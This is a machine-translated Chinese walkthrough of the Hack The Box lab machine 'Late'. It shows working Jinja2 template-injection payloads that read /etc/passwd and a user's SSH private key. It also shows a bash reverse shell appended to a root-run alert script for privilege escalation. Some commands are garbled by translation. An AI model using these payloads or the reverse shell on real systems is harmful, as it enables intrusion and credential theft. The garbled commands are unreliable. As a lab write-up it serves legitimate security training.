# 后期黑盒子写的

> 原文：<https://infosecwriteups.com/late-hack-the-box-writeup-46abc5ff5237?source=collection_archive---------2----------------------->



嘿，伙计们，欢迎来到我的博客。今天我们将讨论一下**晚期黑盒子**机器。这是一个非常有趣的机器，它通过 **SSTI 注入**和**普通权限提升**来获得 root 访问权限。

你会认为这是最简单的机器，但事实是，与其他机器相比，这是最难的机器。通过这台机器你会学到很多东西。

1.  列举
2.  添加子域
3.  获取用户外壳访问权限
4.  权限提升
5.  获取根外壳

# 列举

像往常一样，我们从 nmap 扫描开始

> 第一步: nmap -sC -sV 10.10.11.156



在这里，正常端口被打开

让我们看看那个网页是什么 [http://10.10.11.156](http://10.10.11.156)



进一步审查源代码，我发现了子域。


# 添加子域

所以将这个子域添加到 */etc/hosts* 文件中

> **第二步:**image . late . htb late . htb>>/etc/hosts



现在你可以访问 *image.late.htb*



首先，我试图上传图像中的反向外壳，但它没有工作。所以过了很长时间，我发现这个网页把图片转换成了文本文件，结果，它只是在

标签中打印了一些东西，并且去掉了一些特殊字符(_，)。不正常的事情

因此，我尝试了简单的 SSTI 注射{{7*7}}，你需要将这个文本文件转换成图像，你可以在你的电脑上截图或使用以下网站

 [## TXT 到 JPG(在线和免费)-兑换

### 转换为 TXT TXT 是一种包含文本的文件格式，按行组织。文本文件与包含…

convertio.co](https://convertio.co/txt-jpg/) 

结果，你得到的答案是 49，所以我发现这是受 *SSTI 注射*的影响。



阅读下面这篇文章，获得更多的想法

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) [## SSTI(服务器端模板注入)

### 模板引擎被设计成通过将固定模板与易变数据相结合来生成网页。服务器端…

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) 

此外，我尝试了很多方法来利用这一点，但我卡住了。

所以处理这一部分要非常小心，因为在这一部分你需要耐心，不要放弃努力，尽你最大的努力。

你可以使用下面的 GitHub 作为有效载荷

Jinja2 —写入远程文件

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) [## PayloadsAllTheThings/README.md 位于主 swisskyrepo/payloads all the things

### 关于 Web 应用程序安全性和 Pentest/CTF-payloads all the things/readme . MD 的有用负载和旁路列表，请访问…

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) 

通过使用这个有效负载，我们将获得该机器中的/etc/passwd 文件

```
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
```


现在，您将在结果文件中获得密码列表。



您可以看到 1000 个组中的系统用户

```
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
```

呼呼！！！！

现在您将获得 id_rsa 文件，我们可以使用它通过 ssh 登录



并从文件中删除

> **第三步:** chmod 600 id_rsa

# **获取用户外壳访问权限**

> **第三步:**ssh-I id _ RSA SVC _ ACC @ 10 . 10 . 11 . 156



Boooooooooooooommmmmm！！！！！

现在您得到了 userflag，它是 user.txt

> **第四步**:猫 user.txt



# 权限提升

接下来，我们将通过使用 [linpeas.sh](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh) 得到一个根 shell



进一步分析该报告，我发现其中一个根文件具有写权限，即/usr/local/sbin/ssh-alert.sh



在这个文件中，用户可以写任何东西，它也有根权限。因此，我们将在该文件中编写一个反向 shell

我试图用 nano 工具写一个反向 shell，但是这个操作在那个文件中是不允许的。



所以尝试了另一种方法，即追加两个文件

首先，我们将在一个文件中创建反向 shell

```
bash -i >& /dev/tcp/10.10.11.15/4242 0>&1
```

在本地机器上设置监听器

> 第五步: nc -lvp 4242

接下来，将这个文件附加到 ssh-alert.sh。

> **第六步:**cat/tmp/nep . txt>>/usr/local/sbin/ssh-alert . sh



现在，切断您的 ssh 连接并再次登录，通过 ssh 连接，您将在 netcat 中获得反向 shell。



Boooooooooommmmmmm！！！！

现在你可以看到根标志

> **第七步:**猫根. txt



谢谢你卡维吉汉。

这是一台神奇的机器 [kavigihan](https://app.hackthebox.com/users/badges/389926) 我玩它是因为我通过它学到了很多东西，最重要的是要有耐心。

我希望你能理解这篇文章，如果你喜欢，请支持我

OWSP 学生

[](https://www.buymeacoffee.com/0xevilox)